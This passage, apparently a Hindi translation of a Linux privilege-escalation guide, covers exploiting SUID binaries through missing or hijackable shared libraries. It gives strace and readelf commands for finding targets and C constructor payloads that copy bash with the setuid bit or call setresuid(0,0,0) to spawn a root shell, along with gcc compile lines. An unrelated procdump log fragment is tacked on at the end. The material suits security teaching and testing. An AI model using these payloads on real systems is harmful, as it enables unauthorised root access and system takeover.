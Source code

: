यदि आपको कुछ अजीब बाइनरी मिलती है जिसमें **SUID** अनुमतियाँ होती हैं, तो आप यह जांच सकते हैं कि क्या सभी **.so** फ़ाइलें **सही ढंग से लोड** हो रही हैं। इसके लिए आप निम्नलिखित को निष्पादित कर सकते हैं:
```bash
strace <SUID-BINARY> 2>&1 | grep -i -E "open|access|no such file"
```
उदाहरण के लिए, यदि आपको ऐसा कुछ मिलता है: _pen(“/home/user/.config/libcalc.so”, O\_RDONLY) = -1 ENOENT (ऐसी कोई फ़ाइल या निर्देशिका नहीं)_ तो आप इसे शोषण कर सकते हैं।

कोड के साथ फ़ाइल _/home/user/.config/libcalc.c_ बनाएं:
```c
#include <stdio.h>
#include <stdlib.h>

static void inject() __attribute__((constructor));

void inject(){
system("cp /bin/bash /tmp/bash && chmod +s /tmp/bash && /tmp/bash -p");
}
```
इसे निम्नलिखित के द्वारा कंपाइल करें:
```bash
gcc -shared -o /home/user/.config/libcalc.so -fPIC /home/user/.config/libcalc.c
```
और बाइनरी को निष्पादित करें।

## साझा ऑब्जेक्ट हाइजैकिंग
```bash
# Lets find a SUID using a non-standard library
ldd some_suid
something.so => /lib/x86_64-linux-gnu/something.so

# The SUID also loads libraries from a custom location where we can write
readelf -d payroll  | grep PATH
0x000000000000001d (RUNPATH)            Library runpath: [/development]
```
अब जब हमें एक SUID बाइनरी मिल गया है जो एक फ़ोल्डर से एक पुस्तकालय लोड कर रहा है जहां हम लिख सकते हैं, तो उस फ़ोल्डर में आवश्यक नाम के साथ पुस्तकालय बनाएं:
```c
//gcc src.c -fPIC -shared -o /development/libshared.so
#include <stdio.h>
#include <stdlib.h>

static void hijack() __attribute__((constructor));

void hijack() {
setresuid(0,0,0);
system("/bin/bash -p");
}
```
अगर आपको निम्नलिखित त्रुटि मिलती है, तो
```shell-session
./suid_bin: symbol lookup error: ./suid_bin: undefined symbol: a_function_name
```
इसका मतलब है कि आपके द्वारा उत्पन्न की गई पुस्तकालय में `a_function_name` नामक एक फ़ंक्शन होना चाहिए।


[20:20:58 - WARN]: Procdump not running with elevated credentials. If your uid does not match the uid of the target process procdump will not be able to capture memory dumps
[20:20:58 - INFO]: Timed:
[20:21:00 - INFO]: Core dump 0 generated: ./sleep_time_2021-11-03_20:20:58.1714